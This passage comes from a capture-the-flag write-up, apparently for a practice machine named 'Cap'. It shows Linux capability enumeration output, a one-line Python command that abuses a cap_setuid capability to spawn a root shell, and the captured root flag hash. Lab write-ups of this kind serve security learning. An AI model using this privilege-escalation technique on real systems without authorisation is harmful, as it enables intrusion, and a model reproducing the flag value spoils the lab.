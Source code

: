 ```text
╔══════════╣ Capabilities
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities                                                                                                                                                                   
Current capabilities:                                                                                                                                                                                                                        
Current: =
CapInh: 0000000000000000
CapPrm: 0000000000000000
CapEff: 0000000000000000
CapBnd: 0000003fffffffff
CapAmb: 0000000000000000

Shell capabilities:
0x0000000000000000=
CapInh: 0000000000000000
CapPrm: 0000000000000000
CapEff: 0000000000000000
CapBnd: 0000003fffffffff
CapAmb: 0000000000000000

Files with capabilities (limited to 50):
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

HackTricks has an explanation [here](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities) on how to abuse the CAP_SEETUID capability with an example we can use [here](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities#exploitation-example). So let's do it:

```text
nathan@cap:~$ python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@cap:~#
```

## Root Flag

There, as simple as that and we're now root. Let's grab the flag:

```text
root@cap:~# cat /root/root.txt
c4035a6fa432af188462b88e74d854c6
```

That was a nice. I hope you enjoyed it and many thanks to [InfoSecJack](https://twitter.com/InfoSecJack) for creating the box.

See you next time.
